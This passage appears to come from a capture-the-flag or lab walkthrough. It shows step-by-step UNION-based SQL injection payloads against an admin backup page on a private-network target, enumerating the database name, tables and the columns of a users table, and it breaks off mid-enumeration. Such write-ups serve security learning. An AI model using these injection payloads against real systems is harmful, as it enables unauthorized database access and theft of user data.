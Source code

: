 ```
http://192.168.1.223/admin/backup/?id=99 or 1=2 order by 2
```
![m2](/assets/img/m87/m2.png)

**ii) Database Name:**

```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select database())
```
![m3](/assets/img/m87/m3.png)

**iii) Now get Tables Names.**

To find out the table names we need to query table `tables` which is part of `information schema` database.

```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select table_name from information_schema.tables where table_schema='db' limit 0,1)
```
![m4](/assets/img/m87/m4.png)

We found 1 table: `users`

**iv) Extract the columns of table users:**
```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select column_name from information_schema.columns where table_schema='db' and table_name='users' limit 0,1)
```
![m6](/assets/img/m87/m6.png)
```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select column_name from information_schema.columns where table_schema='db' and table_name='users' limit 1,1)
```